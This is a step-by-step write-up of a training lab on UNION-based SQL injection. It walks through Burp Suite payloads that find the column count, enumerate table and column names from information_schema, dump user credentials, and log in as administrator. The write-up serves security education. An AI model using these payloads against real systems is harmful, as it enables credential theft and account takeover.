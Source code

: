 # Lab: SQL injection attack, listing the database contents on non-Oracle databases

This lab demonstrates how to use SQL injection to enumerate and extract sensitive data such as table names, column names, and user credentials from a non-Oracle database using `UNION SELECT` injection.

---

## 🧪 Step 1: Access the Lab

Navigate to the lab URL and inspect the filter categories.

📸 ![Step 1 - Access the Lab](./6-steps/1-access-lab.png)

---

## 🔍 Step 2: Determine Column Count and Text Columns

Intercept the request to the `/filter` endpoint using Burp Suite, and send it to **Repeater**. Modify the `category` parameter to:

```sql
Gifts' UNION SELECT 'abc','def'-- 
```

📸 ![Step 2 - Column Test](./6-steps/2-column-test.png)

This confirms that there are two columns and both accept string values.

---

## 🧱 Step 3: Enumerate Table Names

Now try to fetch table names using the following payload:

```sql
Gifts' UNION SELECT table_name,NULL FROM information_schema.tables--
```

📸 ![Step 3 - Table Names](./6-steps/3-table-names.png)

From the response, identify the table likely storing credentials, e.g., `users_refclt`.

---

## 🧬 Step 4: Enumerate Column Names

Use the following payload to enumerate columns in the `users_refclt` table:

```sql
Gifts' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='users_refclt'--
```

📸 ![Step 4 - Column Names](./6-steps/4-column-names.png)

Look for columns like `username_vonhqo` and `password_fshwfp`.

---

## 📥 Step 5: Extract User Credentials

Extract the user credentials using this payload:

```sql
Gifts' UNION SELECT username_vonhqo,password_fshwfp FROM users_refclt--
```

📸 ![Step 5 - Extracted Credentials](./6-steps/5-dumped-credentials.png)

Find the `administrator` user and the corresponding password (e.g., `egby7m3v5p3z3q4vhnfo`).

---

## 🔐 Step 6: Login as Administrator

Visit `/login` and use the extracted credentials:

- **Username:** `administrator`
- **Password:** `egby7m3v5p3z3q4vhnfo`

📸 ![Step 6 - Lab Solved](./6-steps/6-lab-solved.png)

---

✅ **Lab successfully solved!**
